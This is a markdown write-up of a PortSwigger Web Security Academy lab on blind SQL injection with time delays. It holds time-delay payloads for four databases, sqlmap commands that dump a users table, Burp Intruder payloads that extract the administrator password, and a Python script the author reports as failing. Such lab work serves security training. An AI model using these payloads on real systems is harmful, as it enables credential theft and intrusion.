


# [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the administrator user.

## conditional time delay

- oracle:

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual;`
```

- mssql:

```sql
SELECT 'b' FROM demo WHERE '1'='1' WAITFOR DELAY '0:0:10';`
```

- postgresql:

```sql
select * from scientist WHERE (SELECT 'a' FROM pg_sleep(5))='a';`
```

- mysql:

```sql
SELECT 'a' FROM Test WHERE (SELECT SLEEP(0))=1;
```

## tools

sqlmap:

- sqlmapr:

```http
GET /filter?category=* HTTP/1.1
Cookie: TrackingId=*;
```

- `sqlmap -r sqlmapr -batch` => postgresql
- `sqlmap -r sqlmapr --dbms=postgresql -dbs -batch` => public
- `sqlmap -r sqlmapr --dbms=postgresql -D public --tables -batch` => users
- `sqlmap -r sqlmapr --dbms=postgresql -D public -T users --dump -batch` => boom

## manual

1. detected postgresql based on time delay:

    `TrackingId='||pg_sleep(10)--;`

2. find length of admin password using burp's intruder:

    - positions:

        ```http
        TrackingId='%3b+SELECT+CASE+WHEN+(SELECT+LENGTH(password)+FROM+users+WHERE+username%3d'administrator')%3d'§§'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--+;
        ```

    - payloads: 1->30
    - resource pool: maximum concurrent requests: 1
    - add column `response received`
    - result: 20

        

3. Find password: using SUBSTRING (postgresql) and burp's intruder.

    - attack mode: cluster bomb
    - positions:

        ```sql
        TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;
        ```

    - payloads:
    - Set 1: 1->20 (length of password)
    - Set 2: a->z 1->9
    - result:
        

4. Login to admin account => Lab Solved

## Python

fail: every response has only 1 second delay, cookie passing problem ?

```python
import requests

len_password=20
host='http://0a96008804637cf2c093efdd000f0096.web-security-academy.net/'
cookies = {'TrackingId': 'a', 'session': 'OAdNNdXedgMwEVRd6H6I1kgZYpAs0dRY'}

password = ''

all_characters = 'a1234567890qwertyuiopsdfghjklzxcvbnm'

for i in range(1, len_password + 1):
    for c in all_characters:
        cookies.update({'TrackingId': f"x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{i},1)='{c}')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--"})
        resp = requests.get(host, cookies=cookies)
        print(resp.request.headers)
        print(c + ":" + str(resp.elapsed.total_seconds()))
        if resp.elapsed.total_seconds() > 10:
            password += c
            print('Password:' + password)
            break
```
